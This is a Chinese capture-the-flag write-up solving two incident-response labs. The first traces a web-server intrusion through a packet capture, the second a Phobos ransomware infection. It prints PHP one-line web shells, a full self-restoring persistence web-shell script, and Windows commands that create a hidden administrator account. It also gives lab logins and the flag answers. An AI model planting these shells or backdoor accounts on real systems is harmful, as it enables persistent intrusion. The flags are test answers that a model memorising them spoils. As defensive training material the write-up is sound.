







# 应急响应（emergency）

有一台客户的服务器被黑客入侵了，好在安全工程师开启了流量包，请你完成这些题目，提升服务器的安全性吧！

用户名：Administrator
密码：Qsnctf2025

链接: https://pan.baidu.com/s/1LxYbnbYPpzTj0eL1yRKxiA 提取码: db5g
压缩包密码：349df0a5061cfd47e375c8dba9c773d7
赛题为：流量捕获.pcapng + emergency靶场

## 任务1 
任务名称：提交黑客的IP地址
任务分数：2.00
任务类型：静态Flag
提交格式为flag{0.0.0.0}

protocol == http过滤，发现10.0.100.69攻击10.0.100.13

```text
flag{10.0.100.69}
```

## 任务2 
任务名称：提交黑客初始连接的PHP一句话木马密码
任务分数：2.00
任务类型：静态Flag
提交格式为flag{abc}

protocol == http过滤，发现frame.number==894 || frame.number==901内容是初始连接的PHP一句话木马。
```text
No.894  
Form item: "value" = "<?php @eval([$_POST['shell']]) ?>"  

No.901  
{"status":1,"message":"\u64cd\u4f5c\u6210\u529f\uff01"} 操作成功！  
```

```text
flag{shell}
```

## 任务3 
任务名称：提交黑客通过初始连接一句话木马后创建新的一句话木马文件的MD5
任务分数：2.00
任务类型：静态Flag
提交格式为flag{md5}

protocol == http过滤，发现frame.number==53923 || frame.number==53926创建新的一句话木马文件shell.php
```text
No.53923
C:/phpstudy_pro/WWW/shell.php

No.53926
shell.php
<?php @eval($_POST["qsnctf_2025_lab"]); ?>
```

```text
flag{91a29f36879b024d661851b7765f3969}
```

## 任务4 
任务名称：提交黑客创建的不死马的密码
任务分数：2.00
任务类型：静态Flag
提交格式为flag{md5}

```text
protocol == http过滤，发现frame.number==54240 || frame.number==54250上传不死马bsm.php
No.54240  
C:/phpstudy_pro/WWW/bsm.php
```

```php
<?php
ignore_user_abort(true);
set_time_limit(0);

$shell_content = '<?php @eval($_POST["4aad625950d058c24711560e5f8445b9"]); ?>';
$shell_path = __DIR__ . '/.config.php';

while (true) {
    if (!file_exists($shell_path)) {
        file_put_contents($shell_path, $shell_content);
        chmod($shell_path, 0444); 
    }
    sleep(5);
}
?>
```

```text
flag{4aad625950d058c24711560e5f8445b9}
```

## 任务5 
任务名称：提交黑客上传的恶意文件（远程控制木马）的名称
任务分数：2.00
任务类型：静态Flag
提交格式为flag{abc.exe}

protocol == http过滤，发现frame.number==68118 || frame.number==68167上传shell.exe，No.69165执行shell.exe

```text
No.68118
C:/phpstudy_pro/WWW/shell.exe

No.69165  执行shell.exe
cd /d "C:\\phpstudy_pro\\WWW" & shell.exe & echo 8f92ab47 & cd & echo dbeb03f5
```

```text
flag{shell.exe}
```

## 任务6
任务名称：提交黑客上传的恶意文件（远程控制木马）的MD5
任务分数：2.00
任务类型：静态Flag
提交格式为flag{md5}

```text
flag{0410284ea74b11d26f868ead6aa646e1}
```

## 任务7
任务名称：提交黑客上传的恶意文件（远程控制木马）的端口
任务分数：2.00
任务类型：静态Flag
提交格式为flag{1234}

在沙箱虚拟机运行一下，再排查进程和端口。

||
|:--:|
| PID 对应的端口 4444 |

```shell
netstat -ano
```

```text
flag{4444}
```

## 任务8
任务名称：请提交黑客创建用户账户的用户名
任务分数：2.00
任务类型：静态Flag
提交格式为flag{username}

protocol == http过滤
发现frame.number==73634 || frame.number==73637添加账号密码
```text
cd /d "C:\\phpstudy_pro\\WWW" & net user hidden$ P@ssw0rd123 /add & echo 8f92ab47 & cd & echo dbeb03f5
```

发现frame.number==73718 || frame.number==73721添加账号hidden$到管理员组
```text
cd /d "C:\\phpstudy_pro\\WWW" & net localgroup administrators hidden$ /add & echo 8f92ab47 & cd & echo 
```

```text
flag{hidden$}
```

## 任务9
任务名称：请提交黑客创建用户账户的密码
任务分数：2.00
任务类型：静态Flag
提交格式为flag{password}

```text
flag{P@ssw0rd123}
```

## 任务10
任务名称：请提交黑客创建用户账户的时间
任务分数：2.00
任务类型：静态Flag
flag{2025/01/01 01:00:00}

登录靶机，打开eventvwr查看日志。过滤事件ID：4720（创建用户），发现一条。
||
|:--:|
| 过滤事件ID：4720（创建用户），发现一条。 |

```text
flag{2025/11/20 16:13:32}
```

# 2700勒索病毒排查

某公司财务机器某天突然卡顿，任务管理器发现有程序在高占用，后续所有文件都无法打开，且所有文件都变成了.2700结尾的扩展名，目前通过一些特征判断是勒索病毒，比如勒索信以及文件名等，请您上机排查，并根据题目指引进行溯源和数据恢复。

所需工具在C:\Users\Solar\Desktop\工具\目录中

账号：Solar
密码：Solar521

靶机使用说明：https://mp.weixin.qq.com/s/XFisEU5Gdk245cn8jsnlZQ

## 任务1
任务名称：此勒索家族名称是什么？
任务分数：2.00
任务类型：静态Flag
此勒索家族名称是什么？可访问应急响应.com进行查询，大小写敏感，最终以flag{}提交

在应急响应.com(https://www.solarsecurity.cn/detection)搜索sqlback@memeware.net，发现属于Phobos家族。

||
|:--:|
| 桌面有info.txt文件。 |

```text
flag{Phobos}
```

## 任务2
任务名称：勒索病毒预留的ID是什么
任务分数：2.00
任务类型：静态Flag
勒索病毒预留的ID是什么(预留ID为勒索组织恢复的凭证)，以flag{}提交，如有多个以&进行连接

任务1图片中扩展名前可以看见id[4A30C4F9-3524].[sqlback@memeware.net].2700。桌面的info.hta打开也可见ID。

||
|:--:|
| 桌面有info.hta文件。 |

```text
flag{4A30C4F9-3524}
```

## 任务3
任务名称：提交开始加密的时间
任务分数：2.00
任务类型：静态Flag
提交开始加密的时间，以flag{2025/1/1 11:11}格式提交

桌面info.txt、info.hta创建时间。

||
|:--:|
| 2025/11/19 14:31 |

```text
flag{2025/11/19 14:31}
```

## 任务4
任务名称：提交flag
任务分数：2.00
任务类型：静态Flag
访问：应急响应.com 找到此家族恢复工具进行恢复，提交C:\Users\Solar\Desktop\lSimulation_Desktop_Files\flag.txt文件中的flag

访问应急响应.com，在 https://www.solarsecurity.cn/tools 找到Phobos家族恢复工具，下载Phobos恢复工具。

```text
flag{6eff1ea09e63423a48288a77d97e0cc6}
```

## 任务5
任务名称：提交发送邮件的邮箱
任务分数：2.00
任务类型：静态Flag
提交C:\Users\Solar\Desktop\工具\mail 发送邮件的邮箱，以flag{xxx@xxx.com}格式提交

打开“已开发票（附件打开）.eml”文件，找到From: 字段。

||
|:--:|
| 已开发票（附件打开）.eml |

```text
flag{1983929223@qq.com}
```

## 任务6
任务名称：提交发送邮件的IP
任务分数：2.00
任务类型：静态Flag
提交C:\Users\Solar\Desktop\工具\mail 发送邮件的IP，以flag{x.x.x.x}格式提交

||
|:--:|
| X-Originating-IP：39.91.141.213 |

```text
flag{39.91.141.213}
```

## 任务7
任务名称：提交钓鱼附件中的C2地址
任务分数：2.00
任务类型：静态Flag
提交钓鱼附件中的C2地址，以flag{x.x.x.x}格式提交

## 任务8
任务名称：提交flag
任务分数：2.00
任务类型：静态Flag
部分数据丢失，好在运维之前做了备份，使用C:\Users\Solar\Desktop\工具\diskgenus恢复C:\Users\Solar\Desktop\工具\backup中的备份内：C:\Users\Solar\Desktop\flag.bak文件，提交其flag。

使用diskgenus打开备份镜像，找到C:\Users\Solar\Desktop\flag.bak文件。

||
|:--:|
| 找到C:\Users\Solar\Desktop\flag.bak文件 |

```text
flag{92047522e5080bad36eda9d29d5a163e}
```